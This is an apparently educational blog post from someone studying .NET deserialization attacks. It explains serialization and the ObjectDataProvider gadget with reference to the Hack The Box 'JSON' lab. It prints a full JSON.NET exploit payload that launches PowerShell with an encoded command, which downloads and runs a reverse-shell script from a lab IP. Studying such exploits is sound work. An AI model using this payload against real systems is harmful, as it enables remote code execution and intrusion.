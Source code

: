  # Deserialization - Object Instantiation for Remote Code Execution
 
I am currently studying Offensive Security Advanced Web Attacks and Exploitation (WEB-300). One of the sections in the curriculum is a Dot Net Nuke (DNN) deserialization vulnerability leading to code execution.

I have carried out some deserialization attacks before (all legal of course), and whilst I understand the concpet behind them I had never really thought about how the RCE occurs.

I decided to have a look at the underlying .Net objects to demonstrate what is happening under the hood once the deserialization has been carried out an the object has been instantiated.

Hopefully this will help others understand why code execution is achieved.

The questions I am going to try and answer are:

- What is a deserialization vulnerability?
- What is an `ObjectDataProvider`?
- How does the PowerShell script get executed automatically?

## Deserialization Vulnerabilities

According to [OWASP (2017)](https://owasp.org/www-project-top-ten/2017/A8_2017-Insecure_Deserialization) 'the impact of deserialization flaws cannot be overstated. These flaws can lead to remote code execution attacks, one of the most serious attacks possible'.

Serialization is the operation of taking an object or objects in memory and encoding them into a stream of bytes that can be stored (for example to a datase or file) or transmit (for example over a network). Deserialization is the opposite of serialization, a stream of bytes is taken and used to reconstruct an object or objects in memory. Examples of serialization outputs are XML and JSON.

Serialization can be very useful for transmitting objects over a network where two discontiguous systems can effectively contain the same state in terms of object instantiations.



## An Example - JSON

The hack the box JSON machine is a perfect example to explain the underlying object instantiation. Without going in to too much detail the HTTP POST payload used to exploit JSON is shown below:

```
{
    '$type':'System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35',
    'MethodName':'Start',
    'MethodParameters':{
        '$type':'System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
        '$values':['cmd','/c powershell.exe  -exec bypass -enc SQBFAFgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAiAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQA0AC4ANAAvAHIAZQB2AC4AcABzADEAIgApAA==']
    },
    'ObjectInstance':{'$type':'System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089'}
}
```
